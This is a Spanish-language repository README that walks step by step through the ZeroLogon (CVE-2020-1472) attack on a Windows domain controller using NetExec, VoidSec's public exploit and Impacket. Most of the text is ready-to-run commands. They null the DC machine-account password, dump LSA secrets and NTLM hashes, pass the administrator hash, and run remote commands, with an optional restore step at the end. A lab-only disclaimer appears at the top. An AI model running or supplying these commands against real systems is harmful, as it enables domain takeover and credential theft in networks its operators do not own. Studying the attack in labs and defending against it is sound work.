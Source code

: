 # Ataque ZeroLogon (CVE-2020-1472) usando NetExec (nxc) + VoidSec + Impacket

Este repositorio documenta paso a paso cómo ejecutar el ataque **ZeroLogon** utilizando `NetExec` (antes CrackMapExec), el exploit de [VoidSec](https://github.com/VoidSec/CVE-2020-1472) y herramientas de Impacket.

---

## ⚠️ Importante

> Esta guía es solo para fines **educativos** y debe usarse únicamente en laboratorios controlados con permiso explícito. **NO** ejecutes este procedimiento en redes productivas.

---

## Requisitos

- Controlador de dominio sin parches para CVE-2020-1472.
- Máquina atacante con:
  - Linux o WSL.
  - Python 3.
  - NetExec (`nxc`), Impacket y Git instalados.

---

## Paso a paso del ataque

### 1. Verificar conectividad SMB con el DC

```bash
nxc smb 10.0.0.10
```

Repetir si es necesario para confirmar acceso:

```bash
nxc smb 10.0.0.10
```

---

### 2. Explotar ZeroLogon con NetExec

```bash
nxc smb 10.0.0.10 -u '' -p '' -M zerologon
```

Este módulo intenta autenticar usando claves nulas y explotar la vulnerabilidad en Netlogon.

---

### 3. Clonar el exploit de VoidSec

```bash
git clone https://github.com/VoidSec/CVE-2020-1472
cd CVE-2020-1472
```

---

### 4. Cambiar la contraseña de la cuenta de equipo del DC

```bash
python3 cve-2020-1472-exploit.py
```

O usar argumentos manuales:

```bash
python3 cve-2020-1472-exploit.py -t 10.0.0.10 -n DC01
```

---

### 5. Volcar hashes con Impacket

```bash
impacket-secretsdump 'LAHERMANADEFRAN/DC01$@10.0.0.10'
```

Esto permite obtener los secretos de LSA y hash de administrador.

---

### 6. Validar acceso como máquina y luego como administrador

```bash
nxc smb 10.0.0.10 -u 'DC01$' -p '' --lsa
```

Con hash de administrador (por ejemplo):

```bash
nxc smb 10.0.0.10 -u 'administrator' -H 'b8f81826afbf8feae22924970055d318' --lsa
```

---

### 7. Restaurar la contraseña original del DC (opcional)

```bash
python3 reinstall_original_pw.py
```

O con argumentos:

```bash
python3 reinstall_original_pw.py DC01$ 10.0.0.10 <HASH_LARGO>
```

---

### 8. Validar acceso final con hash NTLM

```bash
impacket-secretsdump 'LAHERMANADEFRAN/DC01$@10.0.0.10'
```

---

### 9. Ejecutar comando remoto como administrador

```bash
nxc smb 10.0.0.10 -u 'administrator' -H 'b8f81826afbf8feae22924970055d318' -x whoami
```

---

## ¿Qué hicimos?

- Usamos `nxc` para aprovechar la vulnerabilidad en Netlogon.
- Reemplazamos la contraseña de la cuenta del DC con una contraseña nula.
- Extraímos hashes y secretos del sistema.
- Accedimos remotamente como administrador de dominio.
- Finalmente restauramos el estado original (opcional).

---

## Referencias

- [ZeroLogon CVE-2020-1472 - NVD](https://nvd.nist.gov/vuln/detail/CVE-2020-1472)
- [VoidSec CVE-2020-1472 Exploit](https://github.com/VoidSec/CVE-2020-1472)
- [NetExec (nxc)](https://github.com/Pennyw0rth/NetExec)
- [Impacket](https://github.com/SecureAuthCorp/impacket)

---

## Autor

Explicación elaborada por [Tu Nombre] para propósitos didácticos y de investigación en ciberseguridad ofensiva.
